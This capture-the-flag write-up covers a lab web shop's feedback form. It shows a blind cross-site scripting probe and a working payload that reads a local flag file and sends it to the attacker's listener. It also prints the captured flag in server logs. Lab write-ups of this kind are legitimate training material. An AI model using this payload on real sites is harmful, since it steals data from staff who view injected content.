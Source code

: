 ```yaml
---
title: The Sticker Shop
published: 2024-12-01
description: "Your local sticker shop has finally developed its own webpage."
image: "./The-Sticker-Shop-Images/cover.jpg"
tags: ["Blind XSS", "FeedBack", "Owasp", "Local"]
category: Web Exploitation
draft: false
---
```


> In this Path *http://10.10.62.132:8080/flag.txt* , I Dont have access !!!

## Website Overview

- The website consists of two pages:

> Home Page

  -  Displays a simple interface with cat stickers and some styling.
  -  No apparent vulnerabilities were found here.

> Submit Feedback Page

  -  Contains a feedback form with a textarea for users to submit their comments.
  -  The form sends a POST request to /submit_feedback.

> Initial Observations

  -  The feedback form allows user-supplied input, which could be a potential injection point for attacks like Cross-Site Scripting (XSS).
  -  The response to a normal feedback submission is: Thanks for your feedback! It will be evaluated shortly by our staff.

![feedback Picture](./The-Sticker-Shop-Images/feedback.png)

## Blind XSS Discovery
> Testing for Blind XSS

  -  I used Burp Collaborator to check if a Blind XSS vulnerability existed.
  -  Payload used: ``` '"><script src=https://exemple.com></script>```

> After submitting the payload in the feedback form, I observed a DNS interaction logged in Burp Collaborator, confirming the execution of the payload.
> Vulnerability Context

  -  Since the feedback is processed and evaluated by staff, any malicious JavaScript submitted through the form will execute when the feedback is reviewed.
  -  This confirmed the presence of a Blind XSS vulnerability.

## Exploitation
> Setting Up the Listener

  -  I needed a way to exfiltrate data from the server, so I set up a Python HTTP server to act as my listener:

```python
python3 -m http.server 8000
```
## Crafting the Exploit Payload

> To exploit the vulnerability, I crafted a JavaScript payload that:

  -  Fetches the flag from the server’s localhost (127.0.0.1:8080/flag.txt).

> I used the localhost address because they said that they host everything on the same computer that they use for browsing the internet and looking at customer feedback.

> Sends the retrieved content to my HTTP server.

## **Payload:**
```js
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

> - Note: Edit and Replace your own IP Address.

![Payload Picture](./The-Sticker-Shop-Images/payload.png)

## Injecting the Payload

-    I submitted the payload in the feedback form.
-    Shortly after, my HTTP server captured the exfiltrated flag in the query string of an incoming GET request.

> Example captured request:

```bash
➜  CTF-Writeups python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.62.132 - - [18/Dec/2024 05:02:58] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:08] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:19] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:29] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:39] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:49] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:00] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:10] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:20] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:31] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:41] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:51] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

**GOOD LUCK...**